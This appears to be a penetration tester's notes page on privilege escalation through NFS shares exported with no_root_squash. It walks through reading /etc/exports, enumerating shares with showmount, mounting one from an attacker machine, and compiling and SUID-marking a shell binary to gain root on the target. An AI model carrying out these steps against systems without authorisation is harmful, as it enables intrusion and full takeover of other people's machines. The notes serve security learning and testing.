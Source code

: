 # NFS

**Refer to the following notes for more information on NFS:**&#x20;

{% embed url="https://jarrettgxz-sec.gitbook.io/offensive-security/network-services-vulnerability-scanning-and-exploitation/111-2049-rpc-nfs" %}

**From the target machine** (remote shell)

The _NFS_ (Network File Sharing) configuration is found in the `/etc/exports`file. The important element for privilege escalation is present with the `no_root_squash` value. With this value, we are able to create a `SUID` executable binary on the target machine via the _NFS_ connection, and execute it to gain a root shell.

```bash
$ cat /etc/exports
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
...
```

**We can use the `showmount` command to show the mountable shares on the target machine** (from our attacker machine)

```bash
$ showmount -e <target_ip_add>
Export list for <target_ip_add>:
/tmp                      *
/home/backup              *

$ nmap --script=... <target_ip_addr>
```

**To be ran as root on the attacker machine** (mount the file system for the target machine)

1. Create temporary directory
2. Mount the shares on the target machine (the mount point should be one with the `no_root_squash` option set)
3. Create a _**C**_ program to gain root shell
4. Compile the _**C**_ code to binary
5. Set the SUID bit on the output binary

```bash
root@attacker# mkdir /tmp/tmp_mnt_folder
root@attacker# mount -o rw <target_ip_addr>:<mount_point> /tmp/tmp_mnt_folder
root@attacker# nano shell.c
...
...

root@attacker# gcc shell.c -o shell
root@attacker# chmod +s shell
```

**On the target machine**

1. Navigate to the directory where the `SUID` bit binary is present
2. Run the binary to gain a root shell

```bash
$ ./shell

root@target# id
...
```
